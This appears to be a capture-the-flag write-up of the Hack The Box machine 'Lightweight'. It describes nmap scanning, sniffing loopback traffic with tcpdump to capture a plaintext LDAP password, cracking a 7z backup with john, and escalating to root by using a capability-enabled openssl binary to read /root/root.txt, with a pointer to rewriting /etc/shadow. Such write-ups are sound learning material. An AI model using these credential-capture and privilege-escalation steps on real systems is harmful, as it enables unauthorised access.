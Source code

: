 
# HTB Lightweight

I enjoyed Lightweight, as it was kind of a different box from what I've come across, especially in the user part.

Portscan:
Nmap showed three open ports, i.e. ssh, http and ldap
```
Nmap scan report for 10.10.10.119
Host is up (0.61s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
|   256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
|_  256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (EdDSA)
80/tcp  open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
|_http-title: Lightweight slider evaluation page - slendr
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
| ssl-cert: Subject: commonName=lightweight.htb
| Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
| Not valid before: 2018-06-09T13:32:51
|_Not valid after:  2019-06-09T13:32:51
|_ssl-date: TLS randomness does not represent time
```

On port 80:

![index.html](../images/lightweight_index.png)

The user page prompt me to login via ssh with my IP as username and password. 

Enumerating the LDAP server didn't bring any useful info. After spending some time thinking about the next move, some people over at [0x00sec](https://0x00sec.org/) suggested capturing packets from the lo interface with *tcpdump*.
After "listening" to the box by running ``tcpdump -i lo -A -w inter.pcap`` I started browsing the website. The status.php was taking quite a time to load, so that was suspicious.

After browsing the website enough, I moved the pcap file to /tmp and transfered it to my local computer with ``scp 10.10.14.200@10.10.10.119:/tmp/inter.pcap .``

Opening the file with wireshark, we find that there is an ldap "bind request" from ldapuser2 with [simple authentication](https://ldapwiki.com/wiki/Simple%20Authentication), meaning that the ldapuser2's password was in plain sight.

![wireshark](../images/wireshark.png)

By using it as password, I used ``su`` to ldapuser2 and got the user flag.

```
su ldapuser2
Password: 
[ldapuser2@lightweight ~]$ ls
backup.7z  OpenLDAP-Admin-Guide.pdf  OpenLdap.pdf  user.txt
[ldapuser2@lightweight ~]$  cat user.txt
8a866d3b*******************
```

In ldapuser2's home directory we find a backup.7z file. I transferred it to my local machine like the pcap file only to find out that it was password protected. There I used a [script](https://gist.github.com/bcoles/421cc413d07cd9ba7855) I found, which uses john to brute-force the 7z file. The password was ```delete```

There I found some php files, which are the same from the website, only with a twist:
after running ``cat * | grep user`` in a desparate move for something valueable, I found that the user is ldapuser1, 

```
vict0ni@vict0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep username
$username = 'ldapuser1';
```

so the next logical thing to do is to run ``cat * | grep password``, where we find the ldapuser1's password

```
vict0ni@vic0niLaptop:~/Desktop/CTF/HTB/Lightweight/backup$ cat * | grep password
$password = 'f3ca9d298a553da117442deeb6fa932d';
if ($bind=ldap_bind($ds, $dn, $password)) {
...
...
```

Escalating to ldapuser1, like previously with ldapuser2.

```
[ldapuser2@lightweight ~]$ su ldapuser1
Password: 
[ldapuser1@lightweight ldapuser2]$ whoami
ldapuser1
```

There, root got a bit spoiled to me, because some people where giving away clues inside the box. Specific, one broadcasted the message "openssl is the key". Kind of a bummer but finding two binaries on the home directory was meaning that the way for root had to do with one of them. So the spoil just saved me a rabbithole. But, please, **do not** spoil.

I enumerated the openssl binary I had in front of me. After examing it's capabilities with ``getcap -r openssl`` the output was ``openssl =ep``, which means that it had access to anything.

So to get the root.txt file, one must grab it with openssl, encrypt it and paste it in a directory, then decrypt it to read it, like ``/home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root`` and then ``base64 -d enc_root``.
And there is the *sweet* root flag :D

```
[ldapuser1@lightweight ~]$ /home/ldapuser1/openssl enc -base64 -in /root/root.txt -out enc_root
[ldapuser1@lightweight ~]$ base64 -d enc_root
f1d4e309c*******************
```

PS: "But if you don't get a shell and can't run code, is a system really owned? :thinking:".
Searching for some way to get a root shell I came across [this](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099) article, where one can rewrite the /etc/shadow file.
